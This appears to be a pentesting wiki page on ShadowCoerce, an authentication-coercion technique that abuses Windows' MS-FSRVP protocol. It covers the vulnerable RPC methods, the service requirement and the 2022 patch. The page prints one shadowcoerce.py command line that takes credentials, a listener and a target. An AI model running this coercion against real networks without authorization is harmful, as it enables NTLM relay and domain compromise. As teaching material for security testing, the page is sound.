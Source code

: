 # MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)). That interface is available through the `\pipe\FssagentRpc` SMB named pipe.

In late 2021, [Lionel GILLES](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

**The coerced authentications are made over SMB**. Unlike other similar coercion methods (MS-RPRN printerbug, MS-EFSR petitpotam), I doubt MS-FSRVP abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP.

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

![](<../../../.gitbook/assets/File Server VSS Agent Service.png>)

{% hint style="info" %}
In June 2022, Microsoft patched [CVE-2022-30154](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-30154) in [KB5014692](https://support.microsoft.com/en-us/topic/kb5015527-shadow-copy-operations-using-vss-on-remote-smb-shares-denied-access-after-installing-windows-update-dated-june-14-2022-6d460245-08b6-40f4-9ded-dd030b27850b), which also patched this coercion attack.
{% endhint %}

## Practice

The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

{% hint style="success" %}
**Nota bene**: for the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can  required. It is enabled by default in the script.
{% endhint %}

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![](<../../../.gitbook/assets/MS FSRVP abuse example.png>)

{% hint style="info" %}
In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. In short, run the command again if it doesn't work the first time.
{% endhint %}

## Resources

Topotam's tweet: [https://twitter.com/topotam77/status/1475701014204461056](https://twitter.com/topotam77/status/1475701014204461056)

Topotam's slides: [https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir](https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir)

{% file src="../../../.gitbook/assets/PetitPotam-SLIDES-RTFM_OSSIR.pdf" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
